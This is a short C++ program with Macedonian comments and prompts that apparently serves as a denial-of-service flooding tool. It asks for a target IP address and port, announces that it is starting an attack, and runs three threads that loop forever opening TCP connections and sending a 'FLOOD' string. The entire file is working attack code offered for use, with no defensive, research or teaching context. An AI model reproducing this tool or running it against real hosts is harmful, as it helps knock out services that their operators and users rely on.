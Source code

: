 #include <iostream>
#include <thread>
#include <chrono>
#include <cstring>

#ifdef _WIN32
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
#else
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#endif

using namespace std;

void flood(string ip, int port) {
#ifdef _WIN32
    WSADATA wsa;
    WSAStartup(MAKEWORD(2, 2), &wsa);
#endif

    while (true) {
        int sock = socket(AF_INET, SOCK_STREAM, 0);
        if (sock < 0) continue;

        sockaddr_in target;
        target.sin_family = AF_INET;
        target.sin_port = htons(port);
        target.sin_addr.s_addr = inet_addr(ip.c_str());

        connect(sock, (sockaddr*)&target, sizeof(target));
        send(sock, "FLOOD", 5, 0);  // Испраќа мал стринг

#ifdef _WIN32
        closesocket(sock);
#else
        close(sock);
#endif

        this_thread::sleep_for(chrono::milliseconds(10)); // не го прегреј системот
    }
}

int main() {
    string ip;
    int port;

    cout << "Внеси IP адреса: ";
    cin >> ip;
    cout << "Внеси порт (пример 80): ";
    cin >> port;

    cout << "Почнувам напад на " << ip << ":" << port << endl;

    thread t1(flood, ip, port);
    thread t2(flood, ip, port);
    thread t3(flood, ip, port);

    t1.join();
    t2.join();
    t3.join();

    return 0;
}
